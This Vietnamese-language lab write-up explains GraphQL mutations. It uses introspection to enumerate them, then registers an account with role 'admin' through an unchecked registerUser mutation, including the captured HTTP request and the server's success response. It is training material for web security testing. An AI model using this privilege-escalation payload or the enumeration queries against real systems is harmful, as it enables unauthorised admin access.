


# Mutations — Thay đổi dữ liệu trong GraphQL

Trong GraphQL, ngoài việc đọc dữ liệu bằng query, còn có mutation để thay đổi dữ liệu trên server, tương tự các thao tác POST/PUT/DELETE trong REST API.

## 1. Mutation là gì?

Mutation là GraphQL operation dùng để:

- Tạo object mới.
- Cập nhật object hiện có.
- Xóa object hiện có.

Có thể dùng Introspection để tìm tất cả mutation mà backend hỗ trợ cùng các arguments của chúng.

```graphql
query {
  __schema {
    mutationType {
      name
      fields {
        name
        args {
          name
          defaultValue
          type {
            ...TypeRef
          }
        }
      }
    }
  }
}

fragment TypeRef on __Type {
  kind
  name
  ofType {
    kind
    name
    ofType {
      kind
      name
      ofType {
        kind
        name
        ofType {
          kind
          name
          ofType {
            kind
            name
            ofType {
              kind
              name
              ofType {
                kind
                name
              }
            }
          }
        }
      }
    }
  }
}
```



Mutation này cho phép tạo user mới và yêu cầu một object `RegisterUserInput`.

Tiếp tục sử dụng introspection để xem các field của `RegisterUserInput`:

```graphql
{   
  __type(name: "RegisterUserInput") {
    name
    inputFields {
      name
      description
      defaultValue
    }
  }
}
```



Kết quả cho biết có thể cung cấp:

- `username`
- `password`
- `role`
- `msg`

Sau đó có thể sử dụng mutation `registerUser` để tạo user.

## 2. Khai thác Mutations

Khi kiểm tra mutation, cần xem xét kỹ tất cả mutation và input tương ứng để tìm các attack vector.

Trong ví dụ này, role có thể được người dùng tự cung cấp khi đăng ký:

```graphql
mutation {
  registerUser(input: {
    username: "vautiaAdmin",
    password: "5f4dcc3b5aa765d61d8327deb882cf99",
    role: "admin",
    msg: "Hacked!"
  }) {
    user {
      username
      password
      msg
      role
    }
  }
}
```

Nếu backend không kiểm tra quyền và cho phép người dùng tự đặt: `role = admin`


---

Dùng mutations để tạo tài khoản mới với role là admin 

mật khẩu ở đây là md5 của `123`

```http
POST /graphql HTTP/1.1
Host: 154.57.164.75:31832
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://154.57.164.75:31832/user
Content-Type: application/json
Content-Length: 260
Origin: http://154.57.164.75:31832
DNT: 1
Connection: keep-alive
Cookie: session=eyJyb2xlIjoidXNlciIsInVzZXIiOiJodGItc3RkbnQifQ.aoLDHQ.xptYrcn2pn2mcLjtitl5866MpWs
Priority: u=4

{"query":"mutation {\r\n  registerUser(input: {username: \"vautiaAdmin1\", password: \"202cb962ac59075b964b07152d234b70\", role: \"admin\", msg: \"Hacked!\"}) {\r\n    user {\r\n      username\r\n      password\r\n      msg\r\n      role\r\n    }\r\n  }\r\n}"}
```

```http
HTTP/1.1 200 OK
Server: Werkzeug/3.0.4 Python/3.11.2
Date: Mon, 17 Aug 2026 09:05:10 GMT
Content-Type: application/json
Content-Length: 139
Connection: close

{"data":{"registerUser":{"user":{"username":"vautiaAdmin1","password":"202cb962ac59075b964b07152d234b70","msg":"Hacked!","role":"admin"}}}}
```

đăng nhập vautiaAdmin1:123

ta có flag

